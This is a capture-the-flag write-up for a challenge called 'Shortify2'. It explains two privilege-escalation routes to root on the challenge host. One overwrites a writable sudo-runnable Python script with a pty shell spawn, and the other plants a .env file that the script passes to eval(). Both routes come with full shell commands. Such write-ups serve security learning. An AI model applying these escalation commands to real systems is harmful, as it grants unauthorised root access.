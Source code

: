 # Shortify2 (500p)
## Challenge Description  

<em> He even exposed the root account, poor guy.
https://shortifier.appsec.nu </em>


## Lame, Unintended Solution
1. First thing I do when trying to privesc: `sudo -l`. Looks like we can run `/app/tests/debug.py` as root, let's check it out.
2. "Alright, looks to be a short python script. `import sys` that's interesting, could maybe make my own `sys.py` file. Let's see what else... wait"
3. `devuser` has (had\*, challenge-maker updated) write permission on `/app/tests/debug.py`. This means we can just make it spawn a shell. There seems to be no convenient text editor available, so `echo` will have to do. We edit `debug.py`'s code with `echo "import pty; pty.spawn('/bin/sh')" > /app/tests/debug.py`. Calling `sudo /usr/bin/python3 /app/tests/debug.py` now spawns a root shell.

## Intended Solution
1. With the challenge updated, the above technique no longer works. Instead, we inspect the `debug.py` code and realise that the contents of a file `\x2E\x65\x6E\x76` (evaluates to `.env`) gets passed to `eval()`.
2. Since no absolute path is specified, `open()` will look for a file in the caller's current directory with the name `.env`. We move to a writable directory (e.g. `/home/devuser` or `/tmp`) and `touch .env`.
3. `read()` gets called on the contents of the `.env` file, and this is then passed to `eval()`. This means we control what gets sent to `eval()`. I google how to spawn a shell with `eval()`: `echo "__import__('os').system('/bin/bash')" > .env`. (`exec()` is primarily used for interpreting commands, but `eval()` can do the trick as well.)  
4. `sudo /usr/bin/python3 /app/tests/debug.py` gives us root, flag is in `/root/root.txt`.

